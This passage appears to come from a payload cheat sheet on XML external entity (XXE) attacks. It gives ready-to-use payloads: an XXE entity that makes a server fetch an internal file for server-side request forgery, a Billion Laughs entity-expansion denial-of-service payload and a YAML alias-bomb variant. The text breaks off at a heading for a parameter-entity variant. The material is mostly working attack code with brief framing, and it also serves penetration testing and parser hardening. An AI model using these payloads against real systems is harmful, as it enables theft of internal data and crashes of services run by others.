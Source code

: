 ```
```


## Exploiting XXE to Perform SSRF Attacks

XXE can be combined with the [SSRF vulnerability](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) to target another service on the network.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```


## Exploiting XXE to Perform a Denial of Service

:warning: : These attacks might kill the service or the server, do not use them on the production.

### Billion Laugh Attack

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

### YAML Attack

```xml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

### Parameters Laugh Attack

A variant of the Billion Laughs attack, using delayed interpretation of parameter entities, by Sebastian Pipping.
